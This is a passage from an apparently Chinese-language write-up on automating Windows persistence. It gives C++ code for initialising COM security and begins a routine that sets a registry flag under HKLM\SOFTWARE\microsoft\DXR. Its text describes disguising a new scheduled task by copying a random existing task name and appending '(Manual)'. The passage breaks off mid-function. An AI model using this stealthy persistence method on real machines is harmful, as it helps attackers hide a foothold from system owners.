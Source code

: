 ![image-20240714140031003](https://img-host-arcueid.oss-cn-hangzhou.aliyuncs.com/img202407141400058.png)

## 代码实现

自动化实现上面所说的行为

### 初始化 COM 并设置常规 COM 安全性

```cpp
	HRESULT hr = CoInitializeEx(NULL, COINIT_MULTITHREADED);;
    hr = CoInitializeSecurity(
        NULL,                             // 安全描述符
        -1,                               // 应用程序中可供 COM 使用的身份验证服务数量
        NULL,                             // 指向身份验证服务数组的指针
        NULL,                             // 保留值，通常为 NULL
        RPC_C_AUTHN_LEVEL_PKT_PRIVACY,    // 默认的身份验证级别
        RPC_C_IMP_LEVEL_IMPERSONATE,      // 默认的模拟级别
        NULL,                             // 处理自定义身份验证
        0,                                // 额外的标志
        NULL                              // 保留值，通常为 NULL
    );
```

### 随机选取计划任务名并创建计划任务

随机从当前计划任务名中选取一个 并拼接上(Manual)

根据msdn的自己改改

https://learn.microsoft.com/zh-cn/windows/win32/taskschd/time-trigger-example--c---

```cpp
bool CheckRegistryForTaskCreation() {
    HKEY hKey;
    DWORD dwDisposition;
    LONG lResult = RegCreateKeyEx(
        HKEY_LOCAL_MACHINE,
        charToLPCWSTR("SOFTWARE\\microsoft\\DXR"),
        0,
        NULL,
        0,
        KEY_ALL_ACCESS,
        NULL,
        &hKey,
        &dwDisposition
    );

    if (lResult != ERROR_SUCCESS) {
        ShowErrorWithCode("Error creating/opening registry key", lResult);
        return false;
    }

    if (dwDisposition == REG_CREATED_NEW_KEY) {
        DWORD value = 1;
        RegSetValueEx(hKey, charToLPCWSTR("TaskCreated"), 0, REG_DWORD, reinterpret_cast<BYTE*>(&value), sizeof(value));
        RegCloseKey(hKey);
        return true;
    }
    else {
        DWORD value = 0;
        DWORD valueSize = sizeof(value);
        lResult = RegQueryValueEx(hKey, charToLPCWSTR("TaskCreated"), NULL, NULL, reinterpret_cast<BYTE*>(&value), &valueSize);
        RegCloseKey(hKey);
```